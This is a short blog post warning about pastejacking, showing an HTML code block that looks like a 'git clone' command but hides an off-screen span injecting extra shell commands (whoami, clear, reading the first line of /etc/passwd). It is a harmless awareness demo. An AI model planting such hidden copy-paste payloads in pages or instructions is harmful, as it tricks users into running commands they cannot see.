```yaml
---
layout: post
title: Dangerous Clipboards
date: '2018-04-24 13:11'
---
```


Have you ever cut/copied/pasted into a terminal window? Here's one of a few reasons why you shouldn't:

note -- another example here: view-source:https://security.love/Pastejacking/

{::nomarkdown} ... 

    <p class="codeblock">
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </p>

{:/}


